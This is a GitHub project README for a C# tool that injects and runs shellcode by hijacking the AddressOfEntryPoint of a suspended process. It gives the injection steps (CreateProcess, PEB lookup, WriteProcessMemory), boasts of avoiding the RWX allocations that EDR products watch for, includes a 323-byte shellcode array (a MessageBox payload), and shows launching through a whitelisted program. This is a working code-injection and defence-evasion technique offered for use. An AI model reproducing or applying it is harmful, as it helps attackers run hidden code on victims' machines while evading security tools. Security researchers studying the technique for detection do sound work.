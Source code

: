 # AddressOfEntryPoint_Hijack_CSharp

Blog link: not gonna update


- Shellcode injection or execution via AddressOfEntryPoint hijack.
- Base on my other projects down below:
	1. [MappingInjection](https://github.com/Kara-4search/MappingInjection_CSharp)
	2. [HookDetection](https://github.com/Kara-4search/HookDetection_CSharp)
	3. [PEB-PPIDspoofing](https://github.com/Kara-4search/PEB-PPIDspoofing_Csharp)
	
- Tested on Win10/x64
- Steps
	1. Create a process in a suspended status with "CreateProcess".
	2. Finding process's PEB address.
	3. Finding the process's "ImageBase_address" via PEB.
	4. Finding the RVA(AddressOfEntryPoint) via ImageBase_address(Function: Locate_AddressOfEntryPoint).
	5. AddressOfEntryPoint_address = ImageBase_address + RVA.
	6. Write your shellcode(buf1) into AddressOfEntryPoint_address with "WriteProcessMemory".
	
- **NOTE: If you use NtWriteVirtualMemory insteal of WriteProcessMemory, you gonna get an error.if you really want to use NtWriteVirtualMemory, you may need to change the protect status of the page.
- In this technique we don't need to allocate RWX memory pages in the victim process which some EDRs may not like.
- buf1 down below is a messagebox.
```
	/* MessageBox */
	byte[] buf1 = new byte[323] {
		0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,
		0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
		0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
		0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,
		0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,
		0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
		0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
		0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,
		0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,
		0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
		0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
		0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x3e,
		0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,
		0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
		0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,
		0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0x1a,0x01,0x00,0x00,0x3e,0x4c,0x8d,
		0x85,0x2b,0x01,0x00,0x00,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,
		0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
		0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
		0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x48,0x65,0x6c,0x6c,0x6f,
		0x2c,0x20,0x66,0x72,0x6f,0x6d,0x20,0x4d,0x53,0x46,0x21,0x00,0x4d,0x65,0x73,
		0x73,0x61,0x67,0x65,0x42,0x6f,0x78,0x00 };
```
	
	
## Usage
1. Launch through a white-list application
- Launch with mspaint
	![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/AddressOfEntryPoint_Hijack_Launch.png)
- details
	![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/AddressOfEntryPoint_Hijack_Details.png)
	
	
## TO-DO list
- NONE


## Reference link:
1. https://www.displayfusion.com/Discussions/View/converting-c-data-types-to-c/?ID=38db6001-45e5-41a3-ab39-8004450204b3
2. http://www.qfrost.com/WindowsKernel/WriteProcessMemory/
3. https://www.ired.team/offensive-security/code-injection-process-injection/addressofentrypoint-code-injection-without-virtualallocex-rwx